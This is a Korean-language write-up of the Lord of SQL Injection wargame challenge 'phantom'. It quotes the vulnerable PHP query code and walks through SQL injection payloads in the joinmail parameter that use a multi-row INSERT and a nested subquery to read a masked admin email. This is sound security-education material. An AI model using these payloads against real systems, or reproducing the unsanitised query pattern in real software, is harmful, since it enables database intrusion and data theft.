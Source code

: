 ```yaml
---
title: LOS - 29번 phantom
category: [Wargame, Lord of SQL Injection]
---
```


# [29] phantom

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fzr5Q9%2FbtrpdnYOpmd%2FUYAy063HqOaz1BC4eWUew0%2Fimg.png">

## 풀이

no=1 레코드의 email을 찾는 문제이다.

<br>

먼저, 준비된 쿼리문을 보겠다.

```php
$query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
```

쿼리문으로부터 추측할 수 있는 바는 다음과 같다.

1. 첫 컬럼의 데이터로 0이 들어가는 것으로 보아, no는 AUTO_INCREMENT PRIMARY KEY로 추정할 수 있다.

2. 접속한 ip와 joinmail을 매칭하여 저장함을 알 수 있다.

<br>

다음은 표가 출력되는 과정을 보겠다.

```php
$rows = mysqli_query($db,"select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
while(($result = mysqli_fetch_array($rows))){
if($result['no'] == 1) $result['email'] = "**************";
echo "<tr><td>{$result[ip]}</td><td>".htmlentities($result[email])."</td></tr>";
}
echo "</table>";
```

1. no=1이거나, ip=[접속한 ip] 인 레코드를 표로 출력한다.

2. no=1인 경우, email을 \*\*\*\*\*\*\*\*\*\*\*\*\*\*로 바꾸어 표시한다.

<br>

목표는 no=1의 email을 알아내는 것이기에, 접근 방법을 고민해봤다.

preg_match를 보면 duplicate를 필터링하고 있는데, 이는 ON DUPLICATE UPDATE를 걸러내고자 하는 듯 했다.

ON DUPLICATE UPDATE는 PRIMARY KEY가 중복되는 레코드가 들어갈 시 기존의 레코드를 삭제하고 새로운 레코드가 그 자리를 대체하게끔 하는 구문이다.

만약 이 구문을 필터링하고 있지 않았다면, no=1인 새로운 레코드를 넣음으로써 문제를 간단히 해결할 수 있었을 것이다.

그래서 중복 레코드를 관리하는 다른 방법에 대해서도 찾아봤는데, 이 상황에서 쓸 수 있을 만한 방법은 보이지 않았다.

- ex) INSERT IGNORE, REPLACE INTO

<br>

따라서 여러개의 레코드를 동시에 INSERT하는 방법을 생각했다.

이는 다음과 같이 VALUES 뒤에 괄호로 묶인 여러개의 레코드를 나열함으로써 수행 가능하다.

```sql
INSERT INTO [테이블명] VALUES(1, 1, 1), (2, 2, 2), (3, 3, 3);
```

<br>

이후의 풀이 과정은 다음과 같다.

<br>

[1] 여러 개 INSERT + 서브쿼리 확인

```
?joinmail=choco'), (0, '[접속한 ip]', (select 1 where 1=1)) %23
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FWWusj%2FbtrpcOvEW0j%2FCKRrL1LG8KK45BCRzku1s1%2Fimg.png">

정상적으로 실행되어 choco와 1이 INSERT 된 것을 확인할 수 있다.

서브쿼리가 먹히는 것을 확인했으니, 그 자리에 no=1의 email을 넣어주면 **************로 바뀌기 전의 진짜 email을 쉽게 확인할 수 있을 것 같았다.

<br>

[2] 서브쿼리에 원하는 작업 적용해보기

```
?joinmail=choco'), (0, '[접속한 ip]', (select email from prob_phantom where no=1)) %23
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcPyesx%2Fbtrpjw8kHkz%2FhtWK7skuvlKMQKtwDffWb0%2Fimg.png">

음... 안된다.

Syntax가 잘못되었나 싶어서 별의 별 베리에이션을 다 시도해봤지만 하나같이 다... 안됐다.

1=1, 1=2 등의 기본적인 조건이 적용된 서브쿼리는 문제없이 실행되었지만, prob_phantom 테이블안의 기존 레코드에 접근하려고 하기만 하면 아무 반응도 볼 수가 없었다.

한참 고통받다가... 문득 의심이 들었다.

동일 테이블 안의 레코드에는 일반적인 서브쿼리로 접근할 수 없나?

- [[SQL] 동일(같은) 테이블 서브쿼리](https://do-hansung.tistory.com/9)

그것이 맞았다...

그래서 페이로드를 아래와 같이 바꿔주었다.

<br>

[3] 최종 페이로드

```
?joinmail=choco'), (0, '[접속한 ip]', (select * from (select email from prob_phantom where no=1) as temp)) %23
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbGnBZW%2Fbtro8x2ffmQ%2FjoSP2d93AeOTRHD68HHL61%2Fimg.png">

결과적으로, no=1 레코드의 email은 `admin_secure_email@rubiya.kr` 임을 확인할 수 있었다.


## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbJxRyo%2FbtrpkuvB2eU%2FdKEOvRoSJ5Qb0r8Ydw1YI0%2Fimg.png">